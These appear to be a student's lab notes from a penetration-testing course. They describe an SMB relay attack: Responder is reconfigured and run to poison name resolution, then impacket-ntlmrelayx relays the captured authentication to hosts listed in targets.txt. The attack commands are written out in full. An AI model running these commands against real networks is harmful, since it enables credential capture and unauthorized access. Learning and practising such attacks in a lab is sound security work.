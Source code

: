 <br/>
<br/>
Set up a targets.txt<br/>
<br/>
TIME FOR ATTACK<br/>
<br/>
edit responder config<br/>
<br/>
gedit /etc/responder/Responder.conf <br/>
<br/>
turn off SMB<br/>
turn off HTTP<br/>
<br/>
re run responder<br/>
<br/>
sudo responder -I eth0 -dwv <br/>
<br/>
<img height="600" src="image.png" width="352"/><br/>
<br/>
SET UP RELAY<br/>
<br/>
impacket-ntlmrelayx -tf targets.txt -smb2support<br/>
<br/>
Note differnt from heaths example. had to add the &quot;impacket-&quot; and no &quot;.py&quot;<br/>